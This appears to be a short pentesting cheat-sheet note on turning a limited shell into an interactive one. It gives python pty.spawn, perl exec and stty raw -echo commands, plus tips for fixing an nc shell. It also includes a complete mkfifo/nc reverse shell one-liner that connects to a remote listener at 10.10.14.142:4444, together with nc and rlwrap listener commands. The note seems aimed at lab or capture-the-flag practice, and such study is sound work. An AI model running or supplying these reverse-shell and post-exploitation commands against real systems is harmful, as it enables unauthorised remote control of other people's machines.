 for Bash:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- python3
```
python -c 'import pty; pty.spawn("/bin/bash")' 
```
- python
if no bash, press ctrl-z, which suspends terminal. type this into normal terminal:
```
stty raw -echo; fg
```
- press enter twice
- 
sometimes just `/bin/bash` or `/bin/sh`could work

```
echo os.system('/bin/bash')
```

```
perl -e 'exec "/bin/bash";'
```
- if perl is installed

t/s above commands:
```
echo $0
```
- see what shell im in
```
which python
```
- see if python exists
```
which python3
```
- see if python3 exists

if shell is non-interactive (can run commands but cant cd) and get `No input file specified` response when trying above commands and/or shell says something like `Can't acces tty; job crontol turned off` initially, try another reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.142 4444 >/tmp/f
```
- listener `nc -lvnp 4444`

to fix `nc` shell:
```
export SHELL=/bin/bash 
```

```
export TERM=xterm-256color 
```

```
stty rows 24 columns 80
```

For windows, start listener with rlwrap:
```
rlwrap -cAr nc -lnvp 443
```